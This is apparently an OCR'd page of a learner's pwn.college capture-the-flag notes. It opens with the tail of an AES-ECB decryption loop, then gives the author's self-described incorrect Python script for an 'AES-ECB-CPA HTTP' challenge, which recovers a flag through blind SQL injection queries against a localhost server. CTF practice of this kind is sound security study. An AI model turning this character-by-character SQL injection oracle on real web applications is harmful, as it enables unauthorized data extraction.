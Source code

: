                                     break
                    if not match:
                            print("WARNING: NO MATCH FOR INDEX "+ str(i) + "- " + str(result))
                            no_match += 1
            p.close()
    print("FINAL DECIPHERED PLAINTEXT (decrypted AES-ECB): "+ flag)
    print(str(no_match) + " characters couldn't be deciphered.")



10. AES-ECB-CPA HTTP

Okay, now we'll try that attack in a slightly more realistic scenario. Can you remember your SQL to carry out the attack and recover the flag?

- my solution (not correct yet; couldn't figure out why)
    !/opt/pwn.college/python
    import requests
    from pwn import *
    from bs4 import BeautifulSoup
    sideA = str("aAbBcCdDeEfFgGhHiIjJkKlLmMnNoOpPqQrRsStTuUvVwWxrxXyYzZ,.:;[]{}|-=!~1234567890@^*()+ _")
    # sideB = b"43d2ac8e83570d28d6f75095547875454a3b86cd467e1c524c42e316e7950cee22025d7fea7bbbadb8cfb8a7eddb565910347486862723275b856dad6a011969d4e17ed842539eb24c4b55bce53a9bfbb4f66ac9>
    sideB = []
    flag = ""
    no_match = 0

    print("Script launched.")
    r = requests.get("http://challenge.localhost:80/?query=\'t\'")
    soup = BeautifulSoup(r.text, 'html.parser')
    results_tag = soup.find('b', text='Results:').find_next('pre')
    result = results_tag.text.strip()
    t = result

    r = requests.get("http://challenge.localhost:80/?query=\'f\'")
    soup = BeautifulSoup(r.text, 'html.parser')
    results_tag = soup.find('b', text = 'Results:').find_next('pre')
    result = results_tag.text.strip()
    f = result
    print("Codebook Finished. Starting to decrypt flag")

    for i in range(0, 62):
        match = False
        for ch in sideA:
            pattern = '_'*i + ch + '%'
            r = requests.get("http://challenge.localhost:80/?query=CASE+WHEN+(flag+LIKE+\'"+pattern+"\')+THEN+\'t\'+ELSE+\'f\'+END")
            soup = BeautifulSoup(r.text, 'html.parser')
            results_tag = soup.find('b', text='Results:').find_next('pre')
            results = results_tag.text.strip()
            if results == t and not match:
                flag += ch
                print(ch + " - match found")
                match = True
                break
        if not match:
            print("Character "+str(i)+" couldn't be deciphered")
            no_match += 1
